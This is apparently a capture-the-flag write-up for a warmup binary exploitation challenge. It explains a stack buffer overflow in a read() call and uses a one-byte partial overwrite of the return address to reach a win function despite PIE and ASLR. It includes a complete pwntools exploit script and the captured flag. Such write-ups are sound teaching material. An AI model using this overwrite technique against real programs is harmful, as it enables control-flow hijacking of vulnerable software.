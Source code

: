 # warmup1

## Challenge

The challenge is a small binary which reads a string from the user, then returns and exits.
The binary contains a `win` function which will print the flag if called.

PIE and ASLR are enabled, but there is no canary.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Decompiled vuln function

```c
void sym.vuln(void) {
    ulong buf;
    
    sym.imp.read(0, &buf, 0x100);
    return;
}
```

## Solution

There is a buffer overflow in the `vuln` function, which reads 0x100 bytes into a 0x10-byte buffer.
Recall that `read` does not append a null-byte to the end of our string.

The return address after `vuln` will be at 0x00001212 relative to the binary base.
The address of the `win` function is 0x00001219 relative to the binary base.

As these addresses differ only by the least significant byte, which is not affected by PIE and ASLR, we can use the buffer overflow to modify this byte to return to the `win` function.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 chal
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.send(flat({0x18: b'\x19'}))

io.interactive()
```

## Flag

```
maple{buwuffer_owoverflow_UwU}
```
